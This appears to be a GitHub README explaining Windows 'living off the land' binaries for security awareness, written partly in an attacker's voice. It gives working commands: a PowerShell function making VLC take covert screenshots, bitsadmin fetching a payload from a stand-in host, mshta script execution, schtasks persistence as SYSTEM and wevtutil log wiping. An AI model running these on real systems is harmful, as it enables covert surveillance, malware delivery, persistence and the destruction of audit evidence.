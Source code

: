 

# What is LOLBins?

**LOLBins: The Silent Cyber Ninja**
Imagine hacking into a system without ever needing to upload malware. Instead, you just use what's already there — like a digital ninja, hiding in plain sight.

LOLBins (Living Off the Land Binaries) is a fascinating and dangerous technique where attackers utilize legitimate, pre-installed Windows tools and binaries to perform malicious activities. These binaries are intended for everyday use, but in the wrong hands, they can turn a target system's strengths into weaknesses. Let’s explore how attackers can bypass traditional malware defenses with LOLBins.

**What Can LOLBins Do?**
By leveraging trusted system tools, attackers can execute commands, gather sensitive information, move laterally across networks, and maintain persistence — all while avoiding detection. Security software often trusts these built-in utilities, making LOLBins a subtle yet powerful method for cyberattacks.

**PowerShell + VLC = Silent Screenshots**
Imagine gaining access to a system and discovering that VLC Player is installed. Instead of dropping new malware, you can cleverly repurpose this innocent media player into a surveillance tool. Here’s how you can use PowerShell to command VLC to take screenshots:

```PowerShell
function Take-VlcScreenshot {
    param(
        [string]$outputPath = "C:\Screenshots"
    )
    $vlcPath = "C:\Program Files\VideoLAN\VLC\vlc.exe"
    $command = "--screen-fps=1 :screen-follow-mouse --video-filter=scene --vout=dummy --scene-format=png --scene-prefix=screenshot --scene-path=$outputPath screen:// --run-time=5 vlc://quit"
    Start-Process -FilePath $vlcPath -ArgumentList $command -NoNewWindow
}
```
Here’s what this command does:

Takes a screenshot of the user’s screen every second for five seconds.
Stores the screenshots in the specified directory (C:\Screenshots).
Closes VLC silently after the operation is completed.
Why is this interesting? Because the entire operation is stealthy, leveraging VLC Player, a benign program that’s trusted and already installed. No red flags are raised in traditional security monitoring tools.

**Pushing the Boundaries with LOLBins**
But why stop at screenshots? The real beauty of LOLBins is in their flexibility. Once you master using legitimate tools for unintended purposes, the possibilities become endless. Here are a few other malicious tricks you can pull off using pre-existing system utilities:

**1. Downloading Files with bitsadmin.exe**
bitsadmin.exe is a command-line tool for managing download jobs. However, it can also be misused to download files from remote servers — like malware.

```PowerShell
bitsadmin /transfer myDownloadJob /download /priority high https://example.com/payload.exe C:\Users\Public\payload.exe
```
This command downloads a file from the internet and places it in the C:\Users\Public directory, all under the radar of traditional malware detection tools.

**2. Executing Remote Code via mshta.exe**
mshta.exe is used to execute HTML applications (HTA files). Attackers can exploit this to execute malicious scripts directly from the internet.

```PowerShell
mshta "javascript:var sh=new ActiveXObject('WScript.Shell'); sh.Run('calc.exe');close();"
```
This opens up Calculator, but it could just as easily execute a more harmful program. By using trusted binaries like mshta.exe, attackers can run arbitrary code on target systems without triggering alarms.

**3. Creating Persistence with schtasks.exe**
Attackers can ensure that their malicious payload runs every time the system starts by using the schtasks.exe tool, which is used to schedule tasks.

```PowerShell
schtasks /create /sc onstart /tn "Persistence" /tr "C:\path\to\malware.exe" /ru System
```
This command schedules a malicious executable (malware.exe) to run every time the system starts, granting the attacker persistence without needing any third-party tools.

**4. Wiping Evidence with wevtutil.exe**
Once the attack is complete, the attacker might want to cover their tracks by clearing the event logs using wevtutil.exe, a tool used to manage event logs.
```PowerShell
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
```
These commands clear the System, Security, and Application logs, erasing evidence of their malicious activities.

**Final Thoughts:** The Power and Danger of LOLBins
LOLBins highlight the dual nature of built-in system utilities. While they’re essential for administrators, they can be easily manipulated by attackers for sinister purposes. The key lesson here is that no software is inherently safe. As cybersecurity professionals, we must remain vigilant and aware of how legitimate tools can be weaponized.

As we’ve seen with the PowerShell VLC screenshot example, and other LOLBin tricks, an attacker can fly under the radar using the very tools designed to help manage and protect systems.

***"The quieter you become, the more you are able to hear." – Ram Dass***

This perfectly encapsulates the nature of LOLBins in the hands of an attacker — quietly slipping by unnoticed while doing their work.

So, next time you fire up VLC or PowerShell, remember: the simplest tools often hold the most potential for both good and bad.